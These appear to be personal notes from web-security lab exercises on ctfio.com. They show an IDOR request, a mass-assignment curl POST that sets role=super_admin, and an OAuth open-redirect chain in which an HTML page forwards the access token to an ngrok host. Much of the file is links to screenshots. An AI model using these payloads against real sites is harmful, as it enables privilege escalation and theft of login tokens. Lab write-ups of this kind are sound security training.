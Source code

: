 ___

# IDOR

```
GET https://0hl3b40h.eu1.ctfio.com/api/v1/user/2
```

![[Pasted image 20241217171151.png]]

![[Pasted image 20241217171523.png]]

# Invite Systems

![[Pasted image 20241217172150.png]]

![[Pasted image 20241217172208.png]]

## 1

![[Pasted image 20241217172546.png]]

![[Pasted image 20241217172642.png]]

# Mass Assigment

Response,
```json
const user = {"id":1,"username":"ben","role":"user"};
```

```bash
curl 'https://69xknhzf.eu1.ctfio.com/settings' --compressed -X POST -H 'Cookie: token=9435b4e9dd38cf2a8458fb3  
167186173' --data-raw 'website=http%3A%2F%2Fwww.google.com&phone=123456789&bio=Test&role=super_admin'
```

![[Pasted image 20241217175156.png]]

# OAuth Flow using Open Redirect

```js
document.location.hash.substr(1)
```

```
https://auth.fluorite.ctfio.com/auth?client_id=1&redirect_url=https://fluorite.ctfio.com/redirect?url=https://e949-83-213-97-233.ngrok-free.app/test.html/&response_type=token
```

```html
<html>
<head>
    <title>Hello World :-)</title>
</head>
<body>

Hello World :-)
<script>
    window.location = 'x/' + document.location.hash.substr(1);
</script>

</body>
</html>
```

![[Pasted image 20241217180517.png]]

# XSS

